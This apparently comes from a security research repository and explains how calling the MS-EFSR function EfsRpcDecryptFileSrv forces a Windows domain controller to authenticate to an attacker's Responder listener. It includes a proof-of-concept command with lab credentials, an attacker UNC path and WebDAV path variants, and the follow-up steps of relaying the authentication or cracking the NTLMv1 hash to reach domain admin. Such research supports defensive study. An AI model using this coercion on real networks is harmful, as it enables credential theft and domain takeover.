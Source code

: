 # MS-EFSR - Remote call to EfsRpcDecryptFileSrv (opnum 5)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)
 
 - **Function name**: [`EfsRpcDecryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78)

 - **Function operation number**: `5`

 - **RPC Interfaces**:
   + Interface 1:
     - uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\lsarpc`
       + SMB named pipe: `\PIPE\lsass`
       + SMB named pipe: `\PIPE\netlogon`
       + SMB named pipe: `\PIPE\samr`
   + Interface 2:
     - uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\efsrpc`

## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcDecryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcDecryptFileSrv("\\\\192.168.2.51\\share\\file.txt\x00", 0)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
long EfsRpcDecryptFileSrv(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName,
    [in] unsigned long OpenFlag
);
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

 - **FileName**: An EFSRPC identifier as specified in section 2.2.1.

 - **OpenFlag**: This parameter is unused and MUST be ignored by the server. It MUST be set to zero by the client.

---

## Accepted path types

 + :heavy_check_mark: UNC ressource: `\\192.168.2.51\share\file.txt` authenticates to target.
 + :x: UNC ressource: `\??\UNC\192.168.2.51\share\file.txt` does not work, returns a `rpc_s_access_denied` error.
 + :heavy_check_mark: WebDAV ressource: `\\MACHINENAME@80/raj\share\file.txt` authenticates to target.

---

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


 - Documentation of function `EfsRpcDecryptFileSrv`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78

